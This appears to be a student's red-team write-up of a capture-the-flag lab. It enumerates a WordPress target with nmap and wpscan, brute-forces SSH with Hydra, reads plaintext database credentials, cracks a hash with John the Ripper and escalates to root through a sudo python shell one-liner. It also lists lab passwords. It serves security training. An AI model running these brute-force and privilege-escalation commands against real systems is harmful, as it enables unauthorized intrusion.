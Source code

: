 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
```

![nmapscan_Target1_img1](Images/nmap.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 - SSH
  - Port 80 - HTTP
  - Port 111 - rpcbind
  - Port 139 - netbios-ssn Samba smbd 3.X - 4.X (workgrou: WORKGROUP)
  - Port 445 - netbios-ssn Samba smbd 3.X - 4.X (workgrou: WORKGROUP)

The following vulnerabilities were identified on each target:
- Target 1
  - SSH exposed to bruce force Attempts without multifactor authentication
  - HTTP port 80 allows for web traffic to pass through, and can expose files if not properly managed
  - NeBIOS Port 139 - If this system is going to be exposed to the internet it is advised to block this port from being accessed.
  - NetBIOS SMB port 445 - used in wannacry and notPetya ransomware attacks.  It is advised not to expose this to the internet like you would with a wordpress server.

wpscan -o ~/Desktop/wpscan_output --url http://1292.168.1.110/wordpress

![wpscan_Target1_img1](Images/Flag1_WPScan_1_Target1.png)

![wpscan_Target1_img2](Images/flag1_WPScan_2_Target1.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `michael`: _Password: 'michael'_
    - **Exploit Used**
      - _Hydra: hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110:22 -t 4_
      - _Alternative: Guessing_
      - _Alternative: Credential Stuffing_

![michael_hydra_img1](Images/hydra_michael_BruteForce.png)

![michael_img2](Images/Flag2.png)

  - `root`: _`mySQL` Password: R@v3nSecurity_
    - **Exploit Used**
      - _Used brute force credentials to gain ssh access_
      - _Discovered Credentials in plain text in config file_
      - _mysql -u root -p wordpress_

![MySQL_config_img1](Images/wordpress_Config.png)

![MySQL_Access_img1](Images/MySQL_Access.png)
  - `steven`: `Password:`_"pink84"_ `Hash:`_"See Image Below"_
    - **Exploit Used**
      - _mysql -u root -p wordpress_
      - _John the Ripper with RockYou Dictionary attack_
      - `sudo python -c 'import os; os.system("/bin/sh")'`_to gain root privilege_

![root_img1](Images/root_level_access.png)

![MySQL_Target1_img1](Images/Flag3_MySql.png)


- Flags

Flag 1:

![Flag_img1](Images/Flag_1.png)


Flag 2:

![flag2_img1](Images/Flag2.png)

Flag 3:

![Flag_3_MySQL_img1](Images/Flag3_MySql.png)

Flag 4:

![Flag_4_root_img2](Images/Flag4_root.png)
